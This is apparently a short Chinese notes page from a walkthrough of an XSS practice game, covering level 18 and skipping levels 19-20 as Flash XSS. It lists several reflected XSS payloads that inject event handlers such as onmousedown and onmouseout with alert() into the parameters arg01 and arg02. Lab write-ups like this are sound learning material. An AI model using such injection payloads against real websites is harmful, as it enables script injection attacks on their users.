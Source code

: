 这一题我看代码好像没啥区别? 使用了上一关的 payload 正常弹出 `arg01=a&arg02=%20onmousedown=alert(1)`

.......是我姿势不对吗?

网上有人构造 arg01 造成的弹出,相应的 payload: `arg01=a%20onmousedown=alert(2)&arg02=b`,我试了一下我这也能弹🤔

```
arg01=a&arg02=b onmouseout=alert(1)
arg01=a&arg02=b onmouseout=alert`1`
arg01=a&arg02=b onmouseover=alert`1`
```

---

# level 19~20

以下2关都属于 Flash XSS,对于这个不了解,略
